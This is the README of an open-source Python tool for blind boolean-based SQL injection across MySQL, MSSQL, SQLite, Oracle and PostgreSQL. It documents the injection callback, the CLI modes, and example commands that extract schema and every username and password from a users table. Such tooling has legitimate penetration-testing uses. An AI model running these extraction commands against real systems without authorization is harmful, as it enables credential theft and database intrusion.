# SQLi blinder

Framework for blind boolean-based sql injections explotation. Use it if sqlmap does shit. 

Support:
- MySQL
- MSSQL
- SQLite
- Oracle
- PostgreSQL

Requires Python 3.x.

There are no dependencies, just `pip install requests` for example `request_func`, or `pip install aiohttp` for async example.

## Usage

You could use sqlib.py console utility or do your own script by importing `sqli_blinder.SQLiBlinder`, but both cases requires you to create your own `request_func`.

### Prepare request_func

The `request_func` must paste single input param to your SQL injection and issue request.
It must return `True` for input param `1=1` and `False` for input param `1=0`.

It's OK to throw on unexpected behavior.

Example presented in `sqlib.py`.

Check your `request_func` with:

```python
SQLiBlinder(request_func,dbms).check()
```

If you want to use sqlib.py - replace `request_func` with your own.

### Async version of request_func

Limitation of standart version is that it works sequentially. Multithreading is applied only for string chars search. When string is found, it use single thread to determine length of next string and etc.

Async allows make more task simultaniously, so it is supposed to be faster.

But it require you to make async `request_func`. You could use one of python HTTP async clients such as `aiohttp` or [make requests async](https://stackoverflow.com/questions/22190403/how-could-i-use-requests-in-asyncio).

You can find example of async `request_func` in sqlib_async.py.

### Run sqlib.py

sqlib_async.py use same syntax.

```
usage: sqlib.py [-h] [-t TABLE] [-c COLUMN] [-w WHERE] [-i INDEX]
                [--threads THREADS] --dbms {mysql,mssql,sqlite,oracle,postgre}
                {check,count,one,get}

positional arguments:
  {check,count,one,get}
                        mode - one of ['check','count','one','get']

optional arguments:
  -h, --help            show this help message and exit
  -t TABLE, --table TABLE
                        table nmae
  -c COLUMN, --column COLUMN
                        column names. For get mode could by comma separated array of columns
  -w WHERE, --where WHERE
                        where clause
  -i INDEX, --index INDEX
                        index of row
  --threads THREADS     number of threads
  --dbms {mysql,mssql,sqlite,oracle} DBMS
  --order-by ORDER_BY   order by column name or index
  -s, --silent          not print output during retrieving
```

Examples:

`python sqlib.py check` - check `request_func`

`python sqlib.py count -t sqlite_master --dbms sqlite` - get count of rows in `sqlite_master` table (like `SELECT count(*) FROM sqlite_master`)

`python sqlib.py count -t users --dbms sqlite --where "username='admin'"` - get number of rows in `users` table where `username`=`admin` (like`SELECT count(*) FROM users WHERE username='admin'`)

`python sqlib.py one -t users -c password -i 1 --dbms sqlite` - get value of `password` column in `users` table with index `1` (like `SELECT password FROM users offset 1 limit 1`)

`python sqlib.py get -t users -c username,password --dbms sqlite` - get all `username` and `password` from `users` table (like `SELECT username,password FROM users`)

### SQLiBlinder class

Intended public methods:

- `check()` - check provided `request_func` with `1=1` and `1=0` payloads

- `get_count(table_name,where=None)` - get count of rows in `table` with provided `where` clause

- `get_string(table,column,index,where=None)` - get value of `column` in `table` with index=`index`. `where` is optional

- `get(columns,table_name,where=None)` - get all columns in `columns` from `table` where `where`

examples:

```python
sqlib = SQLiBlinder(request_func,'sqlite',multithreaded=True,threads=16)
sqlib.check() # True
sqlib.get_count('sqlite_master') # number of rows in sqlite_master
sqlib.get_string('sqlite_master','sql',1,) # code of first table
sqlib.get(['username','password'],'users') # all usernames and passwords
sqlib.get(['username','password'],'users',where="username='admin'") # admins username and password
```
